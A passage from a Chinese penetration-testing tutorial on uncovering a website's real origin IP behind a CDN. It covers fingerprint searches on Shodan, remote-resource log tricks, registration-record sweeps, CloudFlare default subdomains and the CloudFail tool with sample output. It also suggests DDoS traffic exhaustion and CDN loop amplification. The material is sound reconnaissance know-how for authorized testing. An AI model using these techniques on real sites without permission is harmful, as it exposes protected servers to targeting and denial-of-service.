另外值得一提的是，渗透过程中同样可以根据 favicon 哈希、子域、IP 的命中，做好指纹排序并整理，另外做一张常见的中间件或者组件指纹哈希表，分类进行资产快速命中：
十八、通过网页源码特征值
- 在服务器源 IP 地址允许访问并且返回的也是类似的网站内容情况下，可以通过侦察页面源码中 JS 、CSS 、HTML 等一系列静态特征值，然后用 Shodan 、Zoomeye 、Censys 等搜索引擎进行匹配搜索，从而定位 IP 。
例如源码中找到一段 Google Analytics 的 JS 特征：
然后 shodan 搜索这些代码特征：
http.html:UA-XXXXX-X
http.html:GTM-XXXXXX
定位到了服务器源 IP ：
十九、通过网站远程资源业务
- 多找一下目标网站上支持远程图片、远程文件等被动连接的业务地方，通过注入我们自己服务器的资源文件，然后查看 HTTP 日志来定位目标服务器的连接。
- 常见的比如加载远程头像处。
二十、通过 CDN 机器
- 有些网站是自搭建 CDN 机器做负载均衡的，很难保证每一台 CDN 机器都做到 100% 安全。没有办法的情况下，可以尝试针对这些 CDN 机器进行渗透测试，如果能拿下一台，就什么都有了，目标主站的安全性好并不代表所有的生产边路都不存在缺陷，安全不在于真正强的地方有多强，而在于薄弱的地方有多弱。
二十一、通过流量耗尽、流量放大攻击
- CDN 是收费的，那么其流量一定是有限的，对一些不是超大型目标网站在进行测试时，注意，一定要在项目方授权允许的情况下，可以尝试进行 ddos 流量测试。
- CDN 流量耗尽了，就不存在内容分发了，直接就可以拿到源 IP 。
- 但是，CDN 是流量穿透的，别流量耗尽前，目标网站先 gg 了。
- 另一种比较古老的做法是通过 CDN 设置中的自身缺陷，将要保护的源站 IP 设置成为 CDN 节点的地址，致使 CDN 流量进入死循环，一层层放大后，最终自己打死自己。不过大多数的 CDN 厂商早已限制禁止将 CDN 节点设置成 CDN 节点 IP ，并且启用了自动丢包保护机制。
二十二、通过域名备案信息广域探测
- 针对目标域名，目标二级域名，如果都做了 CDN 的情况下，是不是就思路中断了呢？
- 肯定不是。这里分享一个很少有人去关注的独门秘技。
- 网站需要服务器，但是再土豪的公司，也不可能一个域名一台服务器，大多数情况下，都是多个域名业务，共用一台服务器。
- 那么如果目标网站存在备案，可以查询其备案信息，收集该单位或者个人备案的其他网站域名以及其他子域，然后再进行一轮广域的探测，很有可能其中的某个边缘子域，没有做 CDN，就直接暴露了真实服务器的 IP 地址，然后再进一步验证该 IP 是否也是目标网站的真实 IP 。

- 特别提一哈，此方法成功率特别的高，而且找到的速度非常的快，所以写在后面，有毅力坚持读下来的同学可以看到。
二十三、利用 CDN 服务商默认配置
- 不同的 CDN 服务商，产品默认配置不同。
- 例如 CloudFlare ，默认配置 direct.domain.com 二级子域指向服务器源 IP。但是很多公司或者个人使用 CDN 保护的时候并没有修改默认配置，导致 IP 泄露风险。
- 其他一些高风险的子域如 ftp、mail、cpanel、direct-connect 等也可以重点关注，方便快速定位，毕竟众测里时间就是金钱。
二十四、通过 SSH 指纹
- 跑题了，SSH 指纹一般应用于匿名 Tor 网络追踪
二十五、使用 CloudFair 工具
- 如果你的目标是 CloudFlare 保护的，建议先上这款工具跑。
- CloudFail 是一种战术侦察工具，旨在收集有关受 Cloudflare 保护的目标的足够信息，以期发现服务器的 IP 位置。
该工具目前探测经过3个不同的攻击阶段：
1.使用 DNSDumpster.com 扫描 DNS 配置错误。 2.扫描和比对 Crimeflare.com 数据库。 3.内置字典暴力扫描超过11000个子域名。
安装和使用：
$ git clone https://github.com/m0rtem/CloudFail
$ pip install -r requirements.txt
$ python cloudfail.py -t domain.com
____ _ _ _____ _ _
/ ___| | ___ _ _ __| | ___|_ _(_) |
| | | |/ _ \| | | |/ _` | |_ / _` | | |
| |___| | (_) | |_| | (_| | _| (_| | | |
\____|_|\___/ \__,_|\__,_|_| \__,_|_|_|
v1.0.2 by m0rtem
[16:12:31] Initializing CloudFail - the date is: 07/01/2021
[16:12:31] Fetching initial information from: domain.com...
[16:12:31] Server IP: 104.xx.x.76
[16:12:31] Testing if domain.com is on the Cloudflare network...
[16:12:31] domain.com is part of the Cloudflare network!
[16:12:31] Testing for misconfigured DNS using dnsdumpster...
[16:12:35] [FOUND:HOST] domain.com HTTP: cloudflare TCP8080: cloudflare 172.xx.xx.62 CLOUDFLARENETUnited States United States
[16:12:35] [FOUND:HOST] freelance.domain.com HTTP: cloudflare TCP8080: cloudflare 104.xx.xx.76 CLOUDFLARENETUnited States United States
[16:12:35] [FOUND:HOST] www.freelance.domain.com HTTP: cloudflare TCP8080: cloudflare 104.xx.xx.76 CLOUDFLARENETUnited States United States
[16:12:35] [FOUND:HOST] ctf.domain.com HTTP: nginx/1.10.3 HTTPS: nginx/1.10.3 SSH: SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u7 185.231.245.55 TEAM-HOST AS Russia
[16:12:35] [FOUND:HOST] www.ctf.domain.com HTTP: nginx/1.10.3 HTTPS: nginx/1.10.3 SSH: SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u7 185.231.245.55 TEAM-HOST AS Russia
[16:12:35] [FOUND:HOST] mail.domain.com 62.213.11.246 ROSTELECOM-ASRussia Russia
[16:12:35] [FOUND:HOST] school.domain.com HTTP: cloudflare TCP8080: cloudflare 104.xx.xx.76 CLOUDFLARENETUnited States United States
[16:12:35] [FOUND:HOST] www.school.domain.com HTTP: cloudflare TCP8080: cloudflare 104.xx.xx.76 CLOUDFLARENETUnited States United States
[16:12:35] [FOUND:HOST] pentest.domain.com HTTP: cloudflare TCP8080: cloudflare 104.xx.xx.76 CLOUDFLARENETUnited States United States
[16:12:35] [FOUND:HOST] www.pentest.domain.com HTTP: cloudflare TCP8080: cloudflare 104.xx.xx.76 CLOUDFLARENETUnited States United States
[16:12:35] [FOUND:HOST] w.domain.com HTTP: nginx/1.6.2 HTTPS: nginx/1.6.2 SSH: SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u8 185.xx.xx.136 TEAM-HOST AS Russia
[16:12:35] [FOUND:HOST] www.w.domain.com HTTP: nginx/1.6.2 HTTPS: nginx/1.6.2 SSH: SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u8 185.xx.xx.136 TEAM-HOST AS Russia
[16:12:35] [FOUND:HOST] www.domain.com HTTP: cloudflare TCP8080: cloudflare 104.xx.xx.76 CLOUDFLARENETUnited States United States
[16:12:35] [FOUND:HOST] pay.domain.com HTTP: cloudflare TCP8080: cloudflare 104.xx.xx.76 CLOUDFLARENETUnited States United States
[16:12:35] [FOUND:HOST] www.pay.domain.com HTTP: cloudflare TCP8080: cloudflare 104.xx.xx.76 CLOUDFLARENETUnited States United States
[16:12:35] [FOUND:DNS] tim.ns.cloudflare.com. 173.xx.xx.145 CLOUDFLARENETUnited States United States
[16:12:35] [FOUND:DNS] tina.ns.cloudflare.com. 173.xx.xx.230 CLOUDFLARENETUnited States United States
[16:12:35] [FOUND:MX] 62.xx.xx.246 ROSTELECOM-ASRussia 10 mail.domain.com.
[16:12:35] [FOUND:MX] 62.xx.xx.246 ROSTELECOM-ASRussia 20 mail.domain.com.
[16:12:35] Scanning crimeflare database...
[16:12:36] [FOUND:IP] 62.xx.xx.230
[16:12:36] [FOUND:IP] 62.xx.xx.246
[16:12:36] Scanning 11219 subdomains (subdomains.txt), please wait...
[16:15:52] [FOUND:SUBDOMAIN] mail.domain.com IP: 62.xx.xx.246 HTTP: 200
[16:16:13] [FOUND:SUBDOMAIN] pay.domain.com ON CLOUDFLARE NETWORK!
[16:16:35] [FOUND:SUBDOMAIN] school.domain.com ON CLOUDFLARE NETWORK!
[16:17:03] [FOUND:SUBDOMAIN] w.domain.com IP: 185.xx.xx.136 HTTP: 200
[16:17:10] [FOUND:SUBDOMAIN] www.domain.com ON CLOUDFLARE NETWORK!
[16:17:14] Scanning finished...
闭眼休息一会，一会就跑出来了：

喜欢偷懒的同学可以使用在线查询：https://suip.biz/?act=cloudfail 已经将此工具集成到了后台，并做了前端 UI 页面供安全信息从业人员在线查询：
脚本执行的结果前端直接可以看到，另外提供 PDF 报告下载，这里我用的是 baidu.com 测试，因为 baidu.com 并没有使用 CloudFlare CDN ，所以速度很快。
如果是查询使用了 CloudFlare CDN 的域名，速度会比较慢，页面会置空，什么都不显示：
稍等一段时间就可以了，这里也给大家截个图，防止有同学误会工具不可以使用：

0x05 找到真实 IP 后如何使用
- 通过修改 hosts 文件，将域名和 IP 绑定。（要是不会，不建议阅读此文。）
- 如使用 burpsuite 测试，可以在 Project options —-> Connections —-> Hostname Resolution 中增加域名和 IP 记录。
0x06 来自高纬度的对抗
- 协议层的管制 / 动静态表 / 出口阻断 / 并发机制转换 / 编码放大 …… 等等高纬度对抗的内容，将在（二）中细细道来。（未完待续）